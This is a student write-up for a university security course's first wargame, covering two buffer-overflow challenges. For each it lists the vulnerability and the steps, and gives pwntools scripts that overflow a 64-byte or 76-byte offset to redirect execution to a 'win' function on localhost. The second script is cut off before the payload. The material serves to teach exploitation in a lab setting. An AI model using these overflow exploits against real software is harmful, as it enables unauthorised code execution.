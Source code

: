 # **COMP6447 Wargame 1** - Johnathan Liauw (z5136212)
## **0. buffer-1 - jump**
_General overview of problems faced:_     
None        

_List of vulnerabilities:_    
1. The input from user can overflow the buffer and overwrite the function pointer 

_Steps to exploit:_   
1. Enter exactly 64 bytes to overflow the buffer and then append the win function address (0x080491d2)  

_Script/Command used:_    
``` python
#!/usr/bin/python

from pwn import *

host = "127.0.0.1"
port = 5001
address = (host, port)

winAddr = 0x080491d2
offset = 64

c = remote(host, port)

payload = "a"*offset + p32(winAddr)
print("Sending payload: %s" % (payload))

c.sendline(payload)

c.interactive()
```
---
## **1. buffer-2 - blind**
_General overview of problems faced:_   
None

_List of vulnerabilities:_    
1. The input from user can overflow the buffer and overwrite the return address of the main function

_Steps to exploit:_   
1. Use a cyclic pattern to find the offset to the return address
2. Enter exactly offset bytes to get to the return address then append the win function address (0x080484cd)

_Script/Command used:_    
```bash
ragg2 -P 200 -r > pattern.txt
(gdb) run < pattern.txt
```
```python
#!/usr/bin/python

from pwn import *

host = "127.0.0.1"
port = 5002
win_address = 0x080484cd
return_offset = 76

```